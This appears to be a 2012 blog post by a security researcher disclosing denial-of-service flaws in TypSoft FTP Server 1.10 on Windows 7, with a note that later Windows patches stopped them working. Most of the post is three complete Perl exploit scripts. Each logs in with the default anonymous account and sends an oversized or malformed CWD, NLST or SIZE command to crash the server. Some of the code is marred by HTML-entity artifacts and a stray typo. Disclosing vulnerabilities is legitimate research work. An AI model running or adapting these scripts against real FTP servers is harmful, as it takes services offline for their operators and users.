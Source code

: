 ```yaml
---
layout: post
title: "TYPSoft FTP"
date: 2012-02-07
excerpt_separator: <!--more-->
---
```


During my introduction to exploit development I started work on a small FTP server, see what I can find. What I found is fairly interesting; couple commands resulted in a Denial-of-Service condition under Win 7 x32 and x64. At the time of my research I have been unable to shove some shell code, jump etc into the thing. Time past and I got busy, so it is might still be there.

TL;DR

* TypSoft FTP Server 1.10 (http://sourceforge.net/projects/ftpserv/)
* Requires valid login to exploit
* Affected commands: CWD, NLST, SIZE
* http://www.exploit-db.com/exploits/18469/
* OSVDB-ID: 80913
* Win 7 only
* Update: Recent Win 7 patches in around 2018 fixed the issues and DoS doesn't seems to work. Oops...
<!--more>

**CWD Variant**
{% highlight perl %}

#!/usr/bin/perl
# Exploit Title: Typsoft FTP Server DoS CWD command
# Date: 02/06/2012
# Author: Balazs Makany
# Software Link: http://sourceforge.net/projects/ftpserv/
# Version: 1.10
# Tested on: Windows 7
# (does not work on Windows XP)
#
# Please note, that you need to have a valid username/password 
# to execute the malformed command on the server. The server comes 
# with an enabled by default Anonymous account, which is used below.


use IO::Socket;

$user = "USER anonymous\r\n";
$passw = "PASS anonymous@127.0.0.1\r\n";
$command = "CWD ";
$dos_input = "."x250;
$send = "\r\n";
$socket = IO::Socket::INET-&gt;new(
Proto => "tcp",
PeerAddr => "$ARGV[0]",
PeerPort => "$ARGV[1]",
);

$socket->recv($serverdata, 1024);
print $serverdata;

$socket->send($user);
$socket->recv($serverdata, 1024);
$socket->send($passw);
$socket->recv($serverdata, 1024);
$socket->send($command.$dos_input.$send);

{% endhighlight %}

**NLST Variant**

{% highlight perl %}

#!/usr/bin/perl
# Exploit Title: Typsoft FTP Server DoS NLST command
# Date: 02/06/2012
# Author: Balazs Makany
# Software Link: http://sourceforge.net/projects/ftpserv/
# Version: 1.10
# Tested on: Windows 7 
# (does not work on Windows XP)
#
# Please note, that you need to have a valid username/password 
# to execute the malformed command on the server. The server comes 
# with an enabled by default Anonymous account, which is used below.


use IO::Socket;

$user = "USER anonymous\r\n";
$passw = "PASS anonymous@127.0.0.1\r\n";
$command = "NLST ";
$dos_input = "/.../.../.../.../.../";
$send = "\r\n";
$socket = IO::Socket::INET-&gt;new(
Proto =>; "tcp",
PeerAddr => "$ARGV[0]",
PeerPort => "$ARGV[1]",
);

$socket->recv($serverdata, 1024);
print $serverdata;

$socket->send($user);
$socket->recv($serverdata, 1024);
$socket->send($passw);
$socket->recv($serverdata, 1024);
$socket->send($command.$dos_input.$send);

{% endhighlight %}

**SIZE variant**

{% highlight perl %}

#!/usr/bin/perl
# Exploit Title: Typsoft FTP Server DoS SIZE command
# Date: 02/06/2012
# Author: Balazs Makany
# Software Link: http://sourceforge.net/projects/ftpserv/
# Version: 1.10
# Tested on: Windows 7
# (does not work on Windows XP)
#
# Please note, that you need to have a valid username/password 
# to execute the malformed command on the server. The server comes 
# with an enabled by default Anonymous account, which is used below.>


use IO::Socket;

$user = "USER anonymous\r\n";
$passw = "PASS anonymous@127.0.0.1\r\n";
$command = "SIZE ";
$dos_input = "/.../.../.../.../.../";
$send = "\r\n";
$socket = IO::Socket::INET-&gt;new(
Proto =&gt; "tcp",
PeerAddr =&gt; "$ARGV[0]",
PeerPort =&gt; "$ARGV[1]",
);

$socket-&gt;recv($serverdata, 1024);
print $serverdata;

$socket-&gt;send($user);
$socket-&gt;recv($serverdata, 1024);
$socket-&gt;send($passw);
$socket-&gt;recv($serverdata, 1024);
$socket-&gt;send($command.$dos_input.$send);

{% endhighlight %}
